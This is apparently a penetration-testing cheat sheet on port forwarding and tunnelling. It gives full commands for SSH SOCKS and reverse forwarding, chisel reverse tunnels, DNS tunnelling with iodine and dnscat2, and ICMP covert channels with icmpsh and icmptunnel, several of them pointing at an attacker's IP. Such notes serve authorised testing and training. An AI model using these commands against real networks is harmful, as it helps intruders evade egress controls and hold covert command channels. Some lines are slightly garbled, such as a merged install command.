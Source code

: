 # Port Redirection & Tunneling

## Port Redirection & Tunneling

We use port redirection and/or tunneling when we want to forward a port that's listening only on localhost \(127.0.0.1\). 

## **SSH** <a id="ssh"></a>

We can use SSH to perform port redirection and tunneling

#### SOCKS Proxy

```text
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```

Cool Tip: Konami SSH Port forwarding

```text
[ENTER] + [~C]
-D 1090
```

#### Local Port Forwarding

```text
ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
```

#### Remote Port Forwarding

```text
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
ssh -R 3389:10.1.1.224:3389 root@10.11.0.32
```

## SSHUTTLE

You can **tunnel** via **ssh** all the **traffic** to a **subnetwork** through a host. For example, forwarding all the traffic going to 10.10.10.0/24

```text
pip install sshuttlesshuttle -r user@host 10.10.10.10/24
```

## Chisel <a id="chisel"></a>

Chisel can be downloaded here: [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

 You need to use the **same version for the client and the server**.

### Windows Port Forwarding <a id="socks"></a>

```text
./chisel server -p 8080 --reverse
./chisel-x64.exe client 10.10.14.3:8080 R:socks
```

### Linux Port forwarding <a id="port-forwarding"></a>

```text
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505
```

## DNS Tunneling

### Detection

Can we resolve internal domain?

```text
nslookup acmebank.local
Server:    192.168.1.1
Address:  192.168.1.153

Name:  acmebank.local
Address: 192.168.10.12
```

Can we resolve an external domain through the company DNS server? \(if yes, we can perform DNS tunneling\)

```text
nslookup google.com
Server:    192.168.1.1
Address:  192.168.1.153

Non-authoritative answer:
Address: 216.58.209.14
Name:  google.com
```

Can we communicate with external DNS? \(another finding\)

```text
nslookup pentest.blog 8.8.8.8
Server: 8.8.8.8
Address: 8.8.8.853

Non-authoritative answer:
Name: pentest.blog
Address: 104.27.169.40
Name: pentest.blog
Address: 104.27.168.40
```

### Attack

#### iodine

iodine creates 2 tun adaptors and sends data between these 2 adapters by tunneling like a DNS query

Server-Side:

```text
iodined -f -c -P <pass> <IP address> <domain> 
eg: 
iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
```

Client-Side:

```text
iodine -f -P <pass> <domain> r 
eg: 
iodine -f -P P@ssw0rd tunneldomain.com -r
```

#### dnscat2

Server-Side:

```text
ruby ./dnscat2.rb tunneldomain.com
```

Client-Side:

```text
./dnscat2 tunneldomain.com
```

```text
dnscat2> session -i 1
command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80 
```

## ICMP Tunneling

ICMP Tunneling can be done by changing the Payload Data so it will contain the data we want to send.

### icmpsh

It does not require administrative privileges. C2-channel, slave runs on Windows \(host\) and master runs on Kali \(attacker\)

### Attack

Clone or download icmpsh:

```text
git clone https://github.com/inquisb/icmpsh.git
```

Master - Kali:

```text
sysctl -w net.ipv4.icmp_echo_ignore_all=1 
cd icmpsh
./icmpsh_m.py <attacker’s-IP> <target-IP>
```

Slave - Windows

```text
icmpsh.exe -t <attacker’s-IP>
```

Master - Kali

```text
./icmpsh_m.py <attacker’s-IP> <target-IP>
```

We can use wireshark to see commands run in the data

### icmptunnel

Server-side:

```text
git clone https://github.com/jamesbarlow/icmptunnel.git 
cd icmptunnel
make
```

ICMP echo reply disable.

```text
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all
```

ICMP tunnel run in server-side and set IP to tun0 adaptor

```text
./icmptunnel -s
Ctrlz
bg
/sbin/ifconfig tun0 10.0.0.1 netmask 255.255.255.0 ifconfig
```

Client-side:

```text
git clone https://github.com/jamesbarlow/icmptunnel.git 
cd icmptunnel
make
```

ICMP echo reply disable.

```text
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all 
./icmptunnel 192.168.1.108
ctrl z
/sbin/ifconfig tun0 10.0.0.2 netmask 255.255.255.0
```

Connect to ssh using ICMP from server to client using tun interface

```text
ssh username@10.0.0.1
```

## References

Most of the tunneling techniques covered here were extracted from here:

{% embed url="https://github.com/areyou1or0/Tunneling" %}







###  <a id="vpn-tunnel"></a>

